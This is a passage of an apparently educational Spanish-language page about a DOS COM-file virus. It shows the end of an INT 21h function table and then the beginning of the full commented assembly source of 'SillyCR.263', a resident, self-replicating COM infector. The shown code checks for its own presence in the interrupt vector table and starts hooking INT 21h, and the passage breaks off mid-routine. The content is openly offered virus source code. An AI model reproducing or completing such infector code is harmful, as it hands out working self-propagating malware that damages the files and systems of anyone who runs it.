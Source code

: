   </tr>
  <tr>
    <td>Establecer puntero de archivo</td> 
    <td>42h</td> 
    <td>AL = código de desplazamiento <br/> BX = handle del archivo <br/> CX = mitad mayor de desplazamiento<br/> DX = mitad menor de desplazamiento</td>   
    <td>Éxito: CF = 0, CX = mitad mayor, DX = mitad menor <br/>Error: CF = 1, AX = código de error</td> 
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################  
;# Nombre:        virus://DOS/SillyCR.263  
;# Plataforma:    Intel x86  
;# SO:            DOS v2.0+  
;# Lenguaje:      ASM x86-16 (sintaxis Intel)  
;# Herramientas:  TASM v4.1, TLINK v7.1.30  
;# Tipo:          Postpending, Resident, COM infector  
;# Tamaño:        263 bytes  
;# Propagación:   En archivos COM antes de ser ejecutados (INT 21h - AH=4B).  
;# Infección:     Postpending en archivos COM (no READ-ONLY).  
;# Residente:     Si. Dentro de la memoria convencional (0-640KB), en la IVT.  
;# Stealth:       No  
;# Payload:       No  
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

V_OFFSET equ 200h - 100h - 8                         ; offset base para direccionamiento viral en IVT 

virus segment byte public 'CODE'

    org 100h

start:     
    jmp short body                                   ; cabezal, en las siguientes generaciones aquí  
    nop                                              ; habrá un near JMP de 3 bytes  
    db 'V'                                           ; firma viral

    mov ah, 00h                                      ; / huésped dummy, solo retorna a DOS  
    int 21h                                          ; \

body:    
    call d_offset                                    ; calcular delta offset  
                   
d_offset:    
    pop bp  
    sub bp, offset d_offset 

    lea si, [bp + body]                              ; origen: inicio del código viral en archivo  
    xor ax, ax  
    mov es, ax                                       ; ES = 0  
    mov di, 200h                                     ; destino: inicio del código viral en IVT  
    mov cx, 10                                       ; considerar 10 bytes  
    repe cmpsb                                       ; comparar origen y destino para reconocer el virus en memoria

    je run_host                                      ; si no está en memoria, ejecutar huésped

    mov ah, 35h                                      ; | AH = 35h  
    mov al, 21h                                      ; | AL = número de interrupción, 21h  